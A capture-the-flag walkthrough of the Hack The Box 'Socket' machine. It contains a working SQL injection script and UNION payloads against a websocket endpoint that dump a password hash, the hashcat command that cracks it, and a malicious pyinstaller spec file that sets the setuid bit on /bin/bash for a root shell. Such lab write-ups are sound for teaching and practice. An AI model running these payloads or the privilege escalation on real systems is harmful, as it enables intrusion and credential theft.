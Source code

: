 ```yaml
---
title: "Hack The Box - Socket [Medium]"
date: 2023-04-21T10:42:27+03:00
draft: true
tags: ["hackthebox"]
---
```


So let's start with a rustscan of the machine

```bash
Open 10.10.11.206:22
Open 10.10.11.206:80
Open 10.10.11.206:5789
[~] Starting Script(s)
[~] Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 14:37 EEST
Initiating Ping Scan at 14:37
Scanning 10.10.11.206 [2 ports]
Completed Ping Scan at 14:37, 0.05s elapsed (1 total hosts)
Initiating Connect Scan at 14:37
Scanning qreader.htb (10.10.11.206) [3 ports]
Discovered open port 22/tcp on 10.10.11.206
Discovered open port 80/tcp on 10.10.11.206
Discovered open port 5789/tcp on 10.10.11.206
Completed Connect Scan at 14:37, 0.05s elapsed (3 total ports)
Nmap scan report for qreader.htb (10.10.11.206)
Host is up, received syn-ack (0.050s latency).
Scanned at 2023-04-21 14:37:19 EEST for 0s

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
5789/tcp open  unknown syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
```

I went to port 80 to check what is there, the idea of the website is to create QR Codes and extract text out of QR Codes, first I thought that maybe there is something with the QR codes but after some examination I decided to give up on that path and I went over the other things such as the Linux/Windows application.

Upon further discovery using `strings` over the linux binary, I realized that this a packaged exectuable that was created with `pyinstaller` so I've tried to unpack it with `uncompyle6` and then the `pyc` files with `pycdc`. 

I found out the following things from the source code of `qreader`:

```python
...
VERSION = '0.0.2'
ws_host = 'ws://ws.qreader.htb:5789'
...
def version(self):
        response = asyncio.run(ws_connect(ws_host + '/version', json.dumps({
            'version': VERSION })))
        data = json.loads(response)
        if 'error' not in data.keys():
            version_info = data['message']
            msg = f'''[INFO] You have version {version_info['version']} which was released on {version_info['released_date']}'''
            self.statusBar().showMessage(msg)
            return None
        error = None['error']
        self.statusBar().showMessage(error)

def update(self):
	response = asyncio.run(ws_connect(ws_host + '/update', json.dumps({
		'version': VERSION })))
	data = json.loads(response)
	if 'error' not in data.keys():
		msg = '[INFO] ' + data['message']
		self.statusBar().showMessage(msg)
		return None
	error = None['error']
	self.statusBar().showMessage(error)
```

This source code tries to connect to a websocket to get its version/update, so the paths for the websockets are:

```
ws://ws.qreader.htb:5789/update
ws://ws.qreader.htb:5789/version
```

I've tested both of these with `claws` tool. Then I crafted a python script to connect with the socket. 

> **_WARNING:_** Be really careful which quotes you are using, `'` or `"` because that could interfere with the SQLi that I found in the `version` path!

```python
from websockets.sync.client import connect
import json

with connect("ws://ws.qreader.htb:5789/version") as websocket:
    websocket.send(json.dumps({'version': '0.0.3" UNION SELECT group_concat(answer),2,3,4 from answers-- -'}))
    m = websocket.recv()
    print(m)
```

With this script, I've enumerated the tables, columns and the username with the following payloads:

```SQL
'0.0.3" UNION SELECT group_concat(answer),2,3,4 from answers-- -' -> This finds the user Thomas Keller
'0.0.3" UNION SELECT group_concat(password),2,3,4 from users-- -' -> This find the password hash
```

Cracking the password

```bash
$ hashcat -m 0 -a 0 0c090c365fa0559b151a43e0fea39710 ~/tools/rockyou.txt
<PASSWORD>
```

Getting the username with [adusergen](https://github.com/syrull/hacks/tree/main/adusergen)

```bash
$ echo -n "Thomas Keller" | adusergen

Thomas.Keller
ThomasKeller
KellerThomas
Keller.Thomas
Tkeller
T.keller
Thomas-Keller
T.keller
thomas.keller
thomaskeller
kellerthomas
keller.thomas
		tkeller <--- Right One
t.keller
thomas-keller
t.keller
```

# Root

The root was fairly easy, you just have to read the documentation for spec files for `pyinstaller`, after that I crafted the following spec file:

```python
block_cipher = __import__('os').system('chmod +s /bin/bash')
```

```bash
tkeller@socket:~$ sudo /usr/local/sbin/build-installer.sh build priv.spec
105 INFO: PyInstaller: 5.6.2
105 INFO: Python: 3.10.6
107 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
110 INFO: UPX is not available.
script '/home/tkeller/minimal.py' not found
tkeller@socket:~$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt 
<HASH>
```